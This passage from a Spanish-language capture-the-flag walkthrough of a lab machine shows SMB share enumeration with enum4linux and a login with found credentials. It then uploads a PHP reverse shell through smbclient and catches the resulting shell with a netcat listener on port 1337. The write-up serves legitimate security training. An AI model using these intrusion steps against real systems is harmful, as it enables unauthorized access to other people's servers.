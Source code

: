 ¡¡Usa tu cabeza (la de arriba) !!

Encontramos un servicio `SAMBA` ejecutándose, así que usé `enum4linux` para verificar los recursos compartidos de la máquina.

```bash
 ======================================= 
|    Share Enumeration on 10.10.1.67    |
 ======================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	SECURED         Disk      Dev
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
```
Tal vez podamos intentar iniciar sesión con el usuario:contraseña que obtuvimos antes...

## Acceso inicial - Usuario

Y sí, ¡funcionó! ¡Podemos iniciar sesión con la cuenta de `ArthurMorgan` en el recurso compartido `SECURED`! Por cierto, es el único que funcionó...

```bash
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4447240 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit

```

Listando los archivos en el directorio, encontramos un archivo `note.txt` ... Hmmm parece familiar ...

Esta es una máquina de memoria XD

Volviendo a nuestros hallazgos, ya hemos encontrado este archivo `note.txt` ...

¡Sí! en `gobuster` lo encontré por nosotros, dentro de la carpeta` / dev`!

¡Así que carguemos un shell inverso al servidor!
```bash
╰─ lanfran@parrot ❯ cat note.txt                                                                                                   ─╯
Secure File Upload and Testing Functionality

╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell_online.php 
putting file shell_online.php as \shell_online.php (27.9 kb/s) (average 27.9 kb/s)
```
```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.9] from (UNKNOWN) [10.10.1.67] 42472
bash: cannot set terminal process group (1008): Inappropriate ioctl for device
```